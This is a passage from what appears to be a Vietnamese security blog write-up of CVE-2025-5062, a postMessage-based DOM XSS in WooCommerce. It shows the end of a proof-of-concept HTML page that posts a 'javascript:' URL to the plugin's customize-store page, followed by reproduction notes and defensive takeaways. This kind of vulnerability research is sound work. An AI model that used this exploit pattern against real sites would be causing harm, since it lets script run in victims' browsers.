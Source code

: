 ```html
                "width=400,height=300"
            );

            // Chờ popup load xong
            const interval = setInterval(() => {
                if (popup && !popup.closed) {
                    // Gửi message
                    popup.postMessage({ type: 'navigate', url: 'javascript:alert(\"phu0c ph4m\")' }, '*');
                    clearInterval(interval);
                }
            }, 5000);
        });
    </script>
</body>

</html>
```

* Admin truy cập trang web và click `Open Popup`
* Sau 5s, sự kiện JavaScript được kích hoạt

{{< figure src="xss2.png" caption="Sự kiện JavaScript từ popup" >}}

👉 Đúng với mô tả CVE.

> Popup không thể tự động kích hoạt nếu không có tương tác của người dùng
> {: .prompt-info }

Ở đây, ta không thể sử dụng `<iframe>` bởi vì `X-Frame-Options: SAMEORIGIN` được set trong response => chỉ khi cùng origin mới nhúng được.

{{< figure src="req1.png" caption="X-Frame-Options: SAMEORIGIN được set trong response" >}}

## Conclusion

Lỗ hổng **CVE-2025-5062** trong plugin **WooCommerce <= 9.4.2** là **PostMessage-based DOM XSS**. Kẻ tấn công không cần xác thực có thể gửi message độc hại tới trang **customize-store**, khiến trình duyệt nạn nhân thực thi script. Bản vá **9.4.3** đã kiểm tra origin, xác thực cấu trúc dữ liệu và whitelist URL trước khi redirect.

**Key takeaways**:

* **PostMessage-based DOM XSS** có thể thực thi script khi người dùng tương tác (popup/link).
* Dữ liệu từ **postMessage** luôn phải coi là không tin cậy.
* Luôn **validate origin, kiểm tra cấu trúc dữ liệu và URL** trước khi redirect.
* **Cập nhật plugin** lên bản vá mới nhất để ngăn khai thác.

## References

[Cross-site scripting (XSS) cheat sheet — PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress WooCommerce <= 9.3.2 and from 9.4 through 9.4.2 — CVE-2025-5062](https://patchstack.com/database/wordpress/plugin/woocommerce/vulnerability/wordpress-woocommerce-plugin-9-3-2-9-4-9-4-2-postmessage-based-cross-site-scripting)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-10-cve-2025-5062/  

